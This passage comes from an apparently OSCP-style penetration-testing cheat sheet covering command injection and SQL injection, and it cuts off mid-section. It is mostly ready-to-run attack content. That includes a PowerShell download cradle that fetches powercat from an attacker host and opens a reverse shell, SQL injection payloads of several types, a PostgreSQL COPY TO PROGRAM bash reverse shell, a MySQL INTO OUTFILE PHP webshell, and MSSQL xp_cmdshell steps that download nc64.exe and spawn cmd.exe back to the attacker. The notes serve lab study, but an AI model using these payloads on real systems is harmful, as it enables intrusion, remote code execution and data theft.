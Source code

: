        `kali@kali:~$ cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .`
    3. start web server  
       `kali@kali:~$ python3 -m http.server 80`  
    5. start netcat listener on port 4444  
       `kali@kali:~$ nc -nvlp 4444`
    7. Download Powercat and create a reverse shell via command injection
       `Archive=git;IEX (New-Object System.Net.Webclient).DownloadString("http://<ATTACKER_IP>/powercat.ps1");powercat -c <ATTACKER_IP> -p <PORT> -e powershell`  > send encoding payload  
       `kali@kali:~$ curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F<kali>%2Fpowercat.ps1%22)%3Bpowercat%20-c%20<kali>%20-p%204444%20-e%20powershell' http://<target>:8000/archive`

- **SQL injection attacks**
  - connect DB  
    MYSQL: `mysql -u root -p'root' -h 192.168.50.16 -P 3306`  
    MSSQL: `impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth`
  - SQLMap
    `sqlmap -r post.txt -p mail-list --batch --level=5 --risk=3 --dump`  
  - simple payloads
    - error
      `' OR 1=1 --`  
      `' or 1=1 in (select @@version) -- //`  
    - union based  
      `' UNION SELECT null, username, password, description, null FROM users -- //`  
    - booloan
      `offsec' AND 1=1 -- //`
    - time-based
      MySQL: `offsec' AND IF (1=1, sleep(3),'false') -- //`  
      MSSQL: `'; IF (SELECT SUBSTRING(@@version,1,1)) = 'M' WAITFOR DELAY '0:0:3'--`
      Postgresql: `' AND 3176=(SELECT 3176 FROM PG_SLEEP(5))-- HlYW`
  - ❗**PostgreSQL: COPY … TO PROGRAM**  
    `<PARAM>=1'; COPY (SELECT '') TO PROGRAM 'bash+-c+"bash+-i+>%26+/dev/tcp/<kali>/80+0>%261"`
  - ❗**MySQL: SELECT … INTO OUTFILE**  
     `' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE '/var/www/html/webshell.php' #`  
     `<target>/tmp/webshell.php?cmd=id`  
  - ❗**MSSQL: xp_cmdshell**
    sql probe: `'; IF (SELECT SUBSTRING(@@version,1,1)) = 'M' WAITFOR DELAY '0:0:3'--`
    
    [nc64.exe】(https://github.com/int0x33/nc.exe/blob/master/nc64.exe)  
    ```
    (kali㉿kali)-[/var/www/html]
    └─$ sudo python3 -m http.server 80

    ';EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE--
    ';EXEC xp_cmdshell "certutil -urlcache -f http://<kali>/nc64.exe c:/windows/temp/nc64.exe";--
    ';EXEC xp_cmdshell "C:\Windows\Temp\nc64.exe <kali> 4444 -e C:\Windows\System32\cmd.exe";--
    ```    
  - Bind reverse shell (powershell -e)
    - Generate Base64 in kali or https://www.revshells.com/ (PowerShell #3 Base64)  
      ```
      pwsh
